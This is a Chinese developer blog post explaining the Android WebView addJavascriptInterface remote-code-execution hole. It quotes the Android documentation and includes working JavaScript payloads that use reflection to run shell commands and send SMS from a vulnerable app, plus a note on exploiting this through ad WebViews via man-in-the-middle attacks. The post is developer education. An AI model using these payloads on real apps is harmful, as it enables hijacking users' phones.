```yaml
---
date: 2014-04-14 13:46:46
tags: ['android', 'hack']
---
```


<img src='https://www.notebookcheck.net/fileadmin/Notebooks/News/_nc3/androidlogo.jpg' />	

去年的某一天，收到客户的反馈说我们的产品在他的手机上不工作。
看了一下日志发现是WebView中JavaScript调用的某个Java方法找不到，通过报错信息搜索后得知：

>Caution: If you've set your targetSdkVersion to 17 or higher, you must add the @JavascriptInterface annotation to any method that you want available your web page code (the method must also be public). If you do not provide the annotation, then the method will not accessible by your web page when running on Android 4.2 or higher.

### 问题
原来是API Level 17后，只会把带有@JavaScriptInterface的方法暴露给JavaScript，因为我的方法都没加这个Annotation，自然就无法调用了。

>Annotation that allows exposing methods to JavaScript. Starting from API level JELLY_BEAN_MR1 and above, only methods explicitly marked with this annotation are available to the Javascript code. See addJavascriptInterface(Object, String) for more information about it.

再看addJavaScriptInterface方法的文档：
>IMPORTANT:
This method can be used to allow JavaScript to control the host application. This is a powerful feature, but also presents a security risk for applications targeted to API level JELLY_BEAN or below, because JavaScript could use reflection to access an injected object's public fields. Use of this method in a WebView containing untrusted content could allow an attacker to manipulate the host application in unintended ways, executing Java code with the permissions of the host application. Use extreme care when using this method in a WebView which could contain untrusted content.

大概是说如果你访问了包括恶意内容的页面，攻击者会得到与应用相同的权限，通过反射来做一些你意想不到的事情。
反射？听起来很高级，到底有多危险？

### 原理
因为Java中所有的类都继承自java.lang.Object，而Object类中有一个方法是getClass()，拿到Class后就可以forName加载任意Class进行反射了。
能做什么呢？不妨来研究下。

### 应用

* 执行任意命令：

```JavaScript
function execute(cmd){
     return window.jsInterface.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null,null).exec(cmd);
}
execute(['/system/bin/sh','-c','echo \"Hello Android!\” > /mnt/sdcard/test.txt']);
```

* 发送短信：

```
var smsManager = window.jsInterface.getClass().forName('android.telephony.SmsManager').getMethod('getDefault', null).invoke(null, null);
smsManager.sendTextMessage('133xxxxxxxx’, null, 'hello', null, null);
```

当然，攻击成功的前提是你的应用具有相应权限，比如上例中需要`WRITE_EXTERNAL_STORAGE`和`SEND_SMS`的权限。

### 扩展
这个漏洞要得到利用，你既要控制web内容，又需要应用本身具有相应权限，看起来没什么大不了的。真的是这样吗？   
很多免费应用都会集成广告平台SDK以在应用中显示广告条增加收入。这个广告条通常是用WebView实现的，而且拥有比较多的权限。如果恶意攻击者使用[dSploit](http://dsploit.net/)发起MITM攻击，篡改服务器返回的内容，插入恶意JavaScript代码，便可以轻易操纵你的手机。

往往这里一个小漏洞，那里一个小漏洞，两个小漏洞结合起来利用就能达到意想不到的效果。
作为开发者，我们要关注开发中的任何一个细节，尽量避免给用户带来威胁。   

---
文中代码：[Demo](https://github.com/hkliya/JavascriptInterfaceDemo)
参考资料：

* [WebView addJavascriptInterface Remote Code Execution](https://labs.mwrinfosecurity.com/advisories/2013/09/24/webview-addjavascriptinterface-remote-code-execution/)
* [addJavaScriptInterface.py](https://github.com/mwrlabs/drozer/blob/bcadf5c3fd08c4becf84ed34302a41d7b5e9db63/src/drozer/modules/exploit/mitm/addJavaScriptInterface.py)
